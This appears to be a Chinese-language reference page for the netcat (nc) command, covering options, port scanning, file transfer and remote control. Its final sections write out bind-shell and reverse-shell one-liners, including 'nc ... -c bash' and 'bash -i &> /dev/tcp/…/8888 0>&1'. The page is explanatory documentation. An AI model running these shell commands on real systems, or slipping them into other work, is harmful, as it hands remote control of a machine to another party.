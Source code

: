 # nc

**nc命令** 全称**netcat**，用于TCP、UDP或unix域套接字(uds)的数据流操作，它可以打开TCP连接，发送UDP数据包，监听任意TCP 和UDP端口，同时也可用作做端口扫描，支持IPv4和IPv6，与Telnet的不同在于nc可以编写脚本。

### 语法

```shell
nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>]
[-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]
```

### 选项

```bash
--4   只使用IPV4
-6    只使用IPV6
-c    使用tls连接或者监听
-D    启用socket调试开关
-l    使用监听模式，管控传入的资料。
-n    直接使用IP地址，而不通过域名服务器。
-r    乱数指定本地与远端主机的通信端口。
-u    使用UDP传输协议。
-v    显示指令执行过程。
-z    使用0输入/输出模式，只在扫描通信端口时使用。
-h    在线帮助
-g <网关>       设置路由器跃程通信网关，最多可设置8个。
-G <指向器数目>  设置来源路由指向器，其数值为4的倍数。
-i <延迟秒数>    设置时间间隔，以便传送信息及扫描通信端口。
-o <输出文件>    指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。
-p <通信端口>    设置本地主机使用的通信端口
-s <来源位址>    设置本地主机送出数据包的IP地址。
-w <超时秒数>    设置等待连线的时间。
```

### 实例

#### **TCP端口扫描**

```bash
[root@localhost ~]# nc -v -z -w2 192.168.0.3 1-100 
192.168.0.3: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.0.3] 80 (http) open
(UNKNOWN) [192.168.0.3] 23 (telnet) open
(UNKNOWN) [192.168.0.3] 22 (ssh) open
```

扫描192.168.0.3 的端口 范围是 1-100 **扫描UDP端口**

```shell
[root@localhost ~]# nc -u -z -w2 192.168.0.3 1-1000  # 扫描192.168.0.3 的端口 范围是 1-1000
```

#### **扫描指定端口**

```bash
[root@localhost ~]# nc -nvv 192.168.0.1 80 # 扫描 80端口
(UNKNOWN) [192.168.0.1] 80 (?) open
y  //用户输入
```

查看从服务器到目的地的出站端口 443 是否被防火墙阻止

```bash
nc -vz acme-v02.api.letsencrypt.org 443 -w2
# Ncat: Version 7.50 ( https://nmap.org/ncat )
# Ncat: Connected to 23.77.214.183:443.
# Ncat: 0 bytes sent, 0 bytes received in 0.07 seconds.
```

#### **文件传输**

```bash
# 接收方提前设置监听端口与要接收的文件名（文件名可自定义）：
nc -lp 8888 > node.tar.gz

# 传输方发文件：
nc -nv 192.168.75.121 8888  < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：192.168.75.121是接收方的ip地址。
```

```bash
# 如果希望文件传输结束后自动退出，可以使用下面的命令：
nc -lp 8888 > node.tar.gz
nc -nv 192.168.75.121 8888 -i 1 < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：-i 表示闲置超时时间
```

#### **远程控制**

```bash
# 正向控制，被控端主动设置监听端口及bash环境，控制端连接，如果有防火墙，需开放端口，否则会被拦截。
# 被控制端执行下面的命令：
nc -lvnp 8888 -c bash
# 控制端执行下面的命令：
nc 192.168.75.121 8888
```

```bash
# 反向控制，控制端设置监听端口，被控端主动连接控制端的ip及端口，并提供bash环境。
# 控制端执行下面的命令：
nc -lvnp 8888
# 被控制端执行下面的命令：
nc 192.168.75.121 8888 -c bash
```

#### **反弹shell**

```bash
# 控制端执行下面的命令：
nc -lvnp 8888
```

```bash
# 被控端执行下面的命令:
bash -i &> /dev/tcp/192.168.75.121/8888 0>&1
```
